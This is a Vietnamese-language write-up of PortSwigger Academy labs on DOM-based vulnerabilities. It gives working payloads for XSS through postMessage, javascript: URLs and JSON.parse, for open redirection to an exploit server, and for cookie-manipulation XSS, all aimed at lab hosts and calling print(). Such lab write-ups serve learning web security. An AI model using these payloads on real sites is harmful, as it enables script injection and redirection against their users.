 # DOM-based vulnerabilities

### 1. DOM XSS using web messages
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages

Context: Dùng hàm `addEventListener()` để lắng nghe message.

![alt text](image.png)

Nó sẽ lắng nghe để gắng quảng cáo vào trang web. 

Tạo 1 iframe ở server exploit, iframe này dẫn đến trang web cần exploit và có gửi thêm message, payload:\
`<iframe src="https://0a3e00fa03d89772812011d8009c002a.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

![alt text](image-1.png)

---

### 2. DOM XSS using web messages and a JavaScript URL
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

Context: Dùng hàm `addEventListener()` + sink: `location.href` + URL cần có `http/https`

![alt text](image-2.png)

Payload: `<iframe src="https://0a60005c0338391482ef47cf007b003b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

---

### 3. DOM XSS using web messages and `JSON.parse`
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse

Context: `addEventListener` + message dạng JSON

![alt text](image-3.png)

Ở đây ta thấy có thêm điều kiện `type=load-channel` để có thể được gán `src` = `d.url`.

Payload: `<iframe src=https://0a9b004b04098a3c80aa857e0066000e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

---

### 4. DOM-based open redirection
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

Context: sink `location.href`, parameter `url` sẽ chứa đường dẫn để turn back

![alt text](image-4.png)

Payload: `https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/`

Ta đặt `url` chuyển hướng về server exploit

---

### 5. DOM-based cookie manipulation
https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

Context: code tạo cookie phía client `lastViewedProduct` để lưu trang cuối cùng đã xem 

![alt text](image-5.png)

Nhưng giá trị này sẽ lấy tất cả path phía sau và không có filter, vì thế ta sẽ chèn `'` để thoát ra và chèn thêm mã js vào. 

Payload: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">`

Iframe này dẫn đến 1 bài post và có thêm mã js, sau đó cookie sẽ lưu lại, và cũng trong iframe này, sự kiện onload ngay lập tức đưa về trang chủ để cookie không bị sửa đổi cũng như người dùng không phát hiện. Và khi người dùng tải lại trang chủ mã sẽ thực thi tự động vì page có:\
![alt text](image-6.png)

Còn 2 bài expert













